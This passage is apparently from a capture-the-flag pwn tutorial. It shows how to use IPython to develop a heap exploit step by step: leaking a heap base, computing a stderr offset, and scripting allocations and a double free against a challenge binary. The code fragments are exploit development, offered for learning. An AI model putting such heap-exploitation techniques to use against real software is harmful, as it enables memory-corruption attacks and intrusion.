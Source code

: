 ![1-3](img/1-3.png)

as you can see in my terminal, `heap_base` can be easily checked in `IPython` anytime and the offset can be calculated pretty easily. we don't need to restart this program and guess the offset. so we can write down the following line into our editor.

```python
guess_stderr = heap_base - 0x11b0ea0
```

for now, the essential part of this section has been presented.

## step 4

debug and write further exploit.

usually, we need to debug the program for many times. because of `IPython`, we never need to run the full script.

all we need to do is to copy from `rs()` to the bottom line of our script and run it.

for this challenge, we should copy from `rs()` to `heap_base = ...`, then calculate `guess_stderr` manually, finally copy the rest part.

```python
rs()

dbg('c')

add(0, 0x20, 'aaa')
ru('gift :')
heap_base = int(ru('\n'), 16) - 0x11e70
guess_stderr = heap_base - 0x56cea0

ru('>')
add(1, 0x30, 'bbb')
ru('>')
remove(0)
ru('>')
remove(0)
```